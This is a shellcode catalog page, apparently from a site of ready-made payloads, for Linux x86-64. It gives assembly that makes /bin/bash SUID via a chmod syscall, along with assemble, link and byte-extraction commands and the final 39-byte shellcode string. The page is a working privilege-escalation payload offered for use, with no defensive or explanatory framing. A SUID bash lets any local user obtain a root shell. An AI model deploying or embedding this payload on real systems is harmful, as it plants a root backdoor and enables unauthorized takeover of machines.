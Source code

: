 ```yaml
---
layout: default
title: chmod("/bin/bash", 4755) - Make bash SUID
permalink: /shellcode/asm-11.html
os: Linux
arch: Intel x86-64
length: 39
---
```


# {{ page.title }}

---
**OS:** {{ page.os }}

**Architecture:** {{ page.arch }}

**Length:** {{ page.length }} bytes

---

## Assembly

```nasm
section .text
global _start

_start:
	xor rax, rax			; null rax (0)
	push rax			; push null terminator

	mov al, 0x68			; move "h" into al (rax)
	push rax			; push "h"
	mov rax, 0x7361622f6e69622f	; move "/bin/bas" into rax
	push rax			; push "/bin/bas"

	mov rdi, rsp			; move pointer to "/bin/bash" into rdi
	mov si, 4755o			; move mode (SUID rwxr-xr-x [4755]) into si (rsi)

	xor rax, rax			; null rax (0)
	mov al, 0x5a			; move chmod syscall number into al (rax)
	syscall				; call chmod

	xor rdi, rdi			; null rdi (0)
	mov al, 0x3c			; move exit syscall number into al (rax)
	syscall				; call exit
```

## Compilation and Linking

```bash
# Assemble
nasm -f elf64 -o code.o code.asm

# Link
ld -m elf_x86_64 -s -o code code.o

# Extract Shellcode
printf '\\x' && objdump -d code | grep "^ " | cut -f2 | tr -d ' ' | tr -d '\n' | sed 's/.\{2\}/&\\x /g'| head -c-3 | tr -d ' ' && echo ' '
```

## Shellcode

```
\x48\x31\xc0\x50\xb0\x68\x50\x48\xb8\x2f\x62\x69\x6e\x2f\x62\x61\x73\x50\x48\x89\xe7\x66\xbe\xed\x09\x48\x31\xc0\xb0\x5a\x0f\x05\x48\x31\xff\xb0\x3c\x0f\x05
```